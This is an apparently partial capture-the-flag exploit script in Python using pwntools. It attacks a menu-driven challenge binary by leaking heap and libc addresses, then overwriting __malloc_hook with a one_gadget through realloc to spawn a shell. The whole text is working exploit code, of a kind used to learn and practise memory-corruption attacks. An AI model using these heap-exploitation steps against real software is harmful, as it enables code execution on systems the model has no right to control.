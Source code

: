 ````python
def add(size,content):
	choice(1)
	sh.recvuntil('size?')
	sh.sendline(str(size))
	sh.recvuntil(':')
	sh.sendline(content)

def show():
	choice(3)

def delete():
	choice(2)

sh.sendline(str(9))

for i in range(8):
	add(0x10,'a')
	delete()
	add(0x10,'11111111')
	show()
	sh.recvuntil('11111111')
	heap_addr=u64(sh.recv(6).ljust(8,'\x00'))
	print hex(heap_addr)
	choice(5)
add(0x60,'a')
delete()
choice(5)
sh.recvuntil('wife:')
stdout_addr=int(sh.recvuntil('\x1b').replace('\x1b',''),16)
libc=LibcSearcher('_IO_2_1_stdout_',stdout_addr)
libc_base=stdout_addr-libc.dump('_IO_2_1_stdout_')
realloc=libc_base+libc.dump('realloc')
malloc_hook=libc_base+libc.dump('__malloc_hook')
onegadget=libc_base+0x4526a
print hex(onegadget)
sh.recvuntil('impress')
sh.send(p64(malloc_hook-0x23))
sh.sendline('a')
sh.recvuntil('Questionnaire')
sh.sendline('\x00'*0xb+p64(onegadget)+p64(realloc+4))
gdb.attach(sh)
sh.interactive()
````




